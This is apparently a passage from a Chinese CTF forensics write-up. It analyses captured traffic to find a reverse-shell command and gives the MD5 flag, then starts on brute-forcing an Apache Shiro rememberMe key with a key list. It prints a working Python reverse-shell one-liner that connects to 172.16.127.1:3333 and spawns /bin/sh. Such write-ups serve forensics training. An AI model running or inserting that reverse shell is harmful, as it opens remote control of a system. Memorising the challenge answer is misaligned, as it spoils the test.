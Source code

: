 ### session-4

> 题目内容：通过什么命令反弹的 shell，提交 md5 加密的 32 位小写字符串。

在流量的最后面，可以看到分别用了三种方式反弹 shell，`/bin/sh`，`nc`和`python pty`方式。  
[![](assets/1702520939-c5bf0cd3b08ef5d93163e78f938a0360.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180149-a1ce8618-999e-1.png)  
但是只有最后一种方式反弹成功，其余两种都报了语法错误。具体命令是

```plain
import os,pty,socket;s=socket.socket();s.connect(("172.16.127.1",3333));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
```

[![](assets/1702520939-1849a3f7e0ee95bfbda6e7697b446a50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180205-aba47da0-999e-1.png)  
所以这道题答案是**7b75e76b64a25bd3d04ea82880c6d462**

## easy\_shiro

### easy\_shiro-1

> 题目内容：shiro key 是什么？

这道题给了日志文件，可以看到经典的 shiro 特征，`rememberMe=deleteMe;`。shiro 攻击就是反序列化，反序列化肯定包含`java`这个关键字。  
[![](assets/1702520939-b87e3d029a1c0281e2e45120e838978a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180228-b9681f78-999e-1.png)  
通篇找下来没有发现 key，那就只剩爆破的方法了。结果还没有 shiro 的密码本，正在一筹莫展的时候发现`fscan`有一个`shiro-key.yml`。里面存放着一些常用的 shiro key。  
[![](assets/1702520939-8c7713cbaf4d61a4058b088f6cc3f88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180240-c035187e-999e-1.png)  
并且还有一个 go 写的加密脚本，依葫芦画瓢写了个 python 的解密脚本。这方面解密还参考了这篇文章[Shiro 反序列化分析带思路及组件检测笔记](https://xz.aliyun.com/t/8997#toc-1)
